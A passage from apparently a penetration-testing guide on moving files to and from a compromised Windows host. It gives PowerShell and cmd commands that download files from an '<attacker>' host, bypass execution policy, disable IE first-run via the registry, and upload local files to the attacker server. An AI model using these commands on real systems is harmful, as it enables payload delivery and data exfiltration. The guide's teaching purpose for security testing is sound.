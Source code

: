 There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

![Internet Explorer error](/assets/pentest/windows-file-transfers/IEerror.png)

This can be bypassed using the parameter `-UseBasicParsing`.

```powershell
Invoke-WebRequest "https://<attacker>/<filename>" -UseBasicParsing -OutFile "<destination-path>"
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

If there is no interactive PowerShell session, then we can create and execute a `.ps1` script.

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = http://<attacker>/<filename> >> wget.ps1
echo $file = <filename> >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

And then run the script (note that executing scripts must be enabled on the system):

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

To upload files to the webserver with PowerShell, we can use a WebClient or `Invoke-RestMethod` cmdlet with specified HTTP mehtod.

```powershell
(New-Object Net.WebClient).UploadFile("http://<attacker>/<filename>", "<source-path>")

# PUT method
$body = Get-Content "<source-path>"
Invoke-RestMethod -Uri "http://<attacker>/<filename>" -Method PUT -Body $body
```


### certutil HTTP


The purpose of the certutil was originally for certificate and CA management, but can also be used for downloading files from HTTP servers. The `-f` option is used to force overwriting files.  
